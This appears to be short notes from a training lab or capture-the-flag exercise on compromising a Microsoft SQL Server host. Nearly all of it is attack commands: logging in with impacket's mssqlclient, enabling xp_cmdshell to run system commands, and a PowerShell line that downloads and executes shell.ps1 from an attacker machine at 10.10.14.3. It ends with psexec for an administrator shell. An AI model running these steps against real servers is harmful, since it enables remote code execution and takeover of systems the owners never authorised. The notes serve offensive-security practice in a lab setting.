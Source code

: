 # SQL Server

```markdown
# connect to sqlserver with impacket
> git clone https://github.com/SecureAuthCorp/impacket

> mssqlclient.py USERNAME/sql_svc@10.10.10.27 -windows-auth

# command IS_SRVROLEMEMBER to veryfy if the current user has ADMIN privileges
> SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')
```

```markdown
# This code will activate xp_cmdshell and gain RCE on the host
# will be sucefull if the host has administrative privileges
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

**UP A FILE SERVER in your machine**

to pass the payload to the server to get a RCE

```markdown
# And download the file from your computer to the server and execute
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
```

to get a privilated shell on the server with *impacket*

```markdown
# Using the psexec.py to get privilaged shell
> psexec.py administrator@10.10.10.27
```
